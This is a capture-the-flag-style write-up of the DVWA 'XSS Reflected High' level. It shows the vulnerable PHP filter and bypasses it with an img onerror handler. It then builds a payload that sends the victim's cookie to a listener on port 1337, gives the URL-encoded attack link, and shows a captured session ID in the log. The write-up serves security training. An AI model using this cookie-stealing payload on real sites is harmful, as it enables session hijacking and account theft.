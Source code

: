 #+TITLE: DVWA - XSS Reflected High
#+AUTHOR: Leonardo Tamiano

* Description
  Now the filtering is even more strict

  #+begin_src php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
  #+end_src

  here the call to ~preg_replace~ means that we will replace not only
  <script>, but also any sequences that contain, in a case insensitive
  way, the sequence of characters

  #+begin_example
< s c r i p t
  #+end_example
  
* Solution
  To bypass it the idea is to use JS events, which can trigger
  javascript without having a ~<script>~ tag to deal with. An event can
  be the ~onerror~ event of the img loading tag

  #+begin_src html
<img src='#' onerror="alert(1);">
  #+end_src

  To weaponize it in to leak the cookie we craft the following payload

  #+begin_src html
<img src='#' onerror="var xhr = new XMLHttpRequest();xhr.open('GET', `http://localhost:1337/${document.cookie}`, false);xhr.send(null);">
  #+end_src

  which we can translate to the following malicious URL

  #+begin_example
http://evil/vulnerabilities/xss_r/?name=%3Cimg+src%3D%27%23%27+onerror%3D%22var+xhr+%3D+new+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C+%60http%3A%2F%2Flocalhost%3A1337%2F%24%7Bdocument.cookie%7D%60%2C+false%29%3Bxhr.send%28null%29%3B%22%3E
  #+end_example

  with this script we're able to leak the user cookie

  #+begin_example
[leo@archlinux xss_reflected]$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [07/Nov/2023 19:07:14] code 404, message File not found
127.0.0.1 - - [07/Nov/2023 19:07:14] "GET /PHPSESSID=301dckse7uvq2hn6dbmu9o62t2;%20security=high HTTP/1.1" 404 -
  #+end_example
